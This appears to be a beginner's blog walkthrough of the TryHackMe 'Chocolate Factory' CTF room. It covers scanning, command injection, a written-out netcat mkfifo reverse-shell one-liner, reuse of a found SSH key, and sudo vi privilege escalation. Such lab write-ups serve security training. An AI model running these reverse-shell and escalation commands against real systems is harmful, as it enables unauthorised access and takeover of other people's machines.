 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 > sudo nmap -sV -sC -v <ip>
   <br />
  -sV: Probe open ports to determine service/version info <br />
  -sC: equivalent to --script=default <br />
   -v: verbose mode <br />
the result like look,<br />

![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 
> gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listern our system 
  > nc -lvnp  <br />
    -l listen mode, for inbound connects <br />
    -v verbose <br />
    -n numeric-only IP addresses, no DNS <br />
    -p local port number <br />
   ! [reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
   python3 -c 'import pty; pty.spawn("/bin/sh")' <br />
   then list out file and read key
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   > chmod 600 filename <br />
   login with ssh charlie 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
  ### privilege escalation 
  
    check the current user privilege 
    > sudo -l 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png)
   get root permission using vi 
   use this website gtfobins.github.io/
   search vi get result 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal 
   Now root user
   change charlie to root 
   su root 
   run the file with key
   DONE 
  
 

